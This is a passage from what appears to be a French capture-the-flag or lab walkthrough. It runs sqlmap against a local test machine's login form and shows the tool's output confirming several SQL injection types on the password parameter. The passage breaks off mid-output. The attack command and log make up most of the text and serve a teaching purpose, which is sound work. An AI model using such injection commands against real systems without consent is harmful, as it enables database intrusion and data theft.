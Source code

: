Sur le site il y a une fonctionnalité d'upload présente mais cette dernière semble refusée pour l'utilisateur `alamo` : on obtient un message d'erreur indiquant que les uploads vers le home de l'utilisateur sont interdits.

Sans doute que c'est actif pour d'autres utilisateurs. On peut bien sûr sortir sqlmap pour aller fouiller dans la base de données :

```bash
$ python sqlmap.py -u "http://192.168.242.135/index.php?page=login.php" --data "user_name=alice&password=Letm3in&Submit_button=Submit" -p password --dbms mysql
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.11.7#dev}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:12:50 /2022-12-04/

[16:12:50] [INFO] testing connection to the target URL
[16:12:50] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:12:51] [WARNING] reflective value(s) found and filtering out
[16:12:51] [INFO] testing if the target URL content is stable
[16:12:51] [INFO] target URL content is stable
[16:12:51] [INFO] heuristic (basic) test shows that POST parameter 'password' might be injectable (possible DBMS: 'MySQL')
[16:12:51] [INFO] heuristic (XSS) test shows that POST parameter 'password' might be vulnerable to cross-site scripting (XSS) attacks
[16:12:51] [INFO] testing for SQL injection on POST parameter 'password'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:13:10] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[16:13:10] [INFO] POST parameter 'password' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --string="Bad")
[16:13:10] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
--- snip ---
[16:13:10] [INFO] POST parameter 'password' is 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
[16:13:10] [INFO] testing 'MySQL inline queries'
--- snip ---
[16:13:20] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[16:14:20] [INFO] POST parameter 'password' appears to be 'MySQL >= 5.0.12 OR time-based blind (SLEEP)' injectable 
[16:14:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:14:20] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[16:14:20] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:14:20] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[16:14:20] [INFO] target URL appears to have 4 columns in query
[16:14:20] [INFO] POST parameter 'password' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[16:14:20] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 144 HTTP(s) requests:
---
Parameter: password (POST)
    Type: boolean-based blind
```